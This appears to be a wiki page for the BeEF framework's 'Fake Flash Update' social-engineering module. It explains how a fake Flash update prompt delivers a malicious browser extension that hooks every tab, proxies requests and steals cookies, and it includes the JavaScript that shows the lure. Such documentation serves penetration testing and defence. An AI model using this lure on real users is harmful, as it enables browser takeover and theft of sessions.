 ##Summary

* **Description**: 
   * Prompts the user to install an update to Adobe Flash Player.The file to be delivered could be a Chrome or Firefox extension. 
   * A Chrome extension has privileged access and can do a whole lot.. 
       * Access all tabs and inject beef into all tabs
       * Use hooked browser as a proxy to do cross domain requests
       * Get all cookies including HTTPonly cookies
    * _Note_ : the Chrome extension delivery will work on Chrome <= 20. From Chrome 21 things changed in terms of how extensions can be loaded.
     * The Firefox extension is disabling PortBanning (ports 20,21,22,25,110,143), enabling Java, overriding the UserAgent and the default home/new_tab pages. See extensions/ipec/files/LinkTargetFinder dirrectory for the Firefox extension source.
* **Authors**: mh, antisnatchor
* **Browsers**: All (User is notified)
* **Parameters** :
  * **Splash Image** : Main image used for fake message (default is adobe reader logo)
  * **BeEF payload root path** : URL of the BeEF server should be here
  * **Payload** : Choose the payload (Chrome or Firefox)
* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/fake_flash_update)

##Internal Working

This module basically add a fake message in the center of the screen and redirect to the browser extension when the user clicks on it :

```javascript
var div = document.createElement('div');
div.setAttribute('id', 'splash');
div.setAttribute('style', 'position:absolute; top:30%; left:40%;');
div.setAttribute('align', 'center');
document.body.appendChild(div);
div.innerHTML= '<a href=\'' + payload + '\' ><img src=\''+ image +'\' /></a>';
    $j("#splash").click(function () {
      $j(this).hide();
        beef.net.send('<%= @command_url %>', <%= @command_id %>, 'answer=user has accepted');
    });
````

## Screenshots

_Command_ :
[[Images/module-fake-flash-update1.png|align=center]]

_Fake message_ :
[[Images/module-fake-flash-update2.png|align=center]]

_Error with Chrome  > 20_ :
[[Images/chrome-extensions.png|align=center]]

_Alert message on Firefox 17_ :
[[Images/module-fake-flash-update3.png|align=center]]

## Feedback

* Blocked with recent version of Chrome (> 20)
* It would be usefull to automatically detect if the browser is chrome or firefox and remove the payload option

## References

* [Adding extensions from other websites ](http://support.google.com/chrome_webstore/bin/answer.py?hl=en&answer=2664769&p=crx_warning)
